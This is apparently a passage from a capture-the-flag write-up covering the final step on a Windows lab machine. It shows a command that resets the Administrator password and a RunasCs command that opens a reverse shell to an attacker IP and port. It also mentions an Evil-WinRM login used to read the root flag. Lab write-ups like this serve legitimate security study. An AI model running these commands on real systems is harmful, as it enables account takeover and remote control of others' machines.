 We changed the password of the Administrator and used RunasCs to spawn a system shell and read the root flag.

```
net user Administrator Password123##
```

```
.\RunasCs.exe Administrator "Password123##" cmd.exe -r 10.8.4.157:9001
```

<img src="attachments/726bb07fb7e68669eda35a42106ac6e8.png" />

*After changing the password and logging in using Evil-WinRM with the new password, it also gave us permission to read the flag.*

---